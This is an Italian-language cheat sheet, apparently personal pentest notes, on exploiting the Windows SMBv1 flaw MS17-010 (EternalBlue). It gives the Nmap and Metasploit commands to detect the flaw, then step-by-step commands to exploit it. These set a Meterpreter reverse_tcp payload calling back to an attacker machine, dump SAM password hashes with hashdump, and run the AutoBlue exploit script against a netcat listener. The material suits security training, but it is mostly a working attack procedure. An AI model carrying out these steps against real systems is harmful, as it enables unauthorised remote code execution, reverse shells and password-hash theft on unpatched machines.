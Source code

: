 # Microsoft Windows – Exploitation di MS17-010 (EternalBlue)

**EternalBlue** è un exploit che sfrutta la vulnerabilità nota come **MS17-010**, una falla critica nel protocollo SMBv1 scoperta e resa pubblica nel 2017. Questa vulnerabilità permette ad un attaccante di eseguire codice arbitrario da remoto con privilegi SYSTEM, senza bisogno di autenticazione. <br>
È stata inizialmente sviluppata dalla NSA e poi resa pubblica dal gruppo Shadow Brokers. La sua fama è dovuta all’utilizzo in attacchi su larga scala come WannaCry e NotPetya.

Questa falla è presente su molte versioni di Windows, tra cui Windows XP, Windows 7 e Windows Server 2008, specialmente nei sistemi che non sono stati aggiornati dopo il rilascio della patch **MS17-010** da parte di Microsoft.

---

## 1 – Rilevazione della vulnerabilità

Per verificare la vulnerabilità con **Nmap**: <br>
`nmap -p445 --script smb-vuln-ms17-010 <IP>` ⟶ verifica se il target è vulnerabile a EternalBlue. <br>

Oppure con **Metasploit**:<br>
`use auxiliary/scanner/smb/smb_ms17_010` ⟶ carica lo scanner SMB per EternalBlue. <br>
`set RHOSTS <IP>` ⟶ imposta il target. <br>
`run` ⟶ avvia la scansione. <br>

---

## 2 – Sfruttamento con Metasploit

Una volta confermata la vulnerabilità, possiamo sfruttarla tramite Metasploit: <br>
`use exploit/windows/smb/ms17_010_eternalblue` ⟶ modulo per EternalBlue. <br>
`set RHOSTS <IP>` ⟶ imposta l’indirizzo del target. <br>
`set SMBPIPE BROWSER` ⟶ specifica la pipe SMB (di default). <br>
`set PAYLOAD windows/x64/meterpreter/reverse_tcp` ⟶ payload Meterpreter. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina Kali. <br>
`set LPORT <Port>` ⟶ porta configurata per la reverse shell. <br>
`run` ⟶ esegue l’exploit. <br>

---

## 3 – Post-Sfruttamento

Una volta ottenuta una sessione Meterpreter: <br>
`getuid` ⟶ mostra l’utente corrente. <br>
`getprivs` ⟶ elenca i privilegi. <br>
`hashdump` ⟶ estrae gli hash delle password dal SAM. <br>

---

## 4 – Alternativa con AutoBlue-MS17-010

In alternativa a Metasploit, si può usare lo script Python **AutoBlue-MS17-010** disponibile su <a href="https://github.com/3ndG4me/AutoBlue-MS17-010">GitHub</a> <br>
`cd AutoBlue-MS17-010/shellcode` <br>
`chmod +x shell_prep.sh` <br>
`./shell_prep.sh` ⟶ prepara la shellcode per il payload. <br>
`nc -nvlp 4444` ⟶ avvia listener Netcat. <br>
`python eternalblue_exploit7.py <IP> shellcode/sc_x64.bin` ⟶ esegue l’exploit. <br>

---
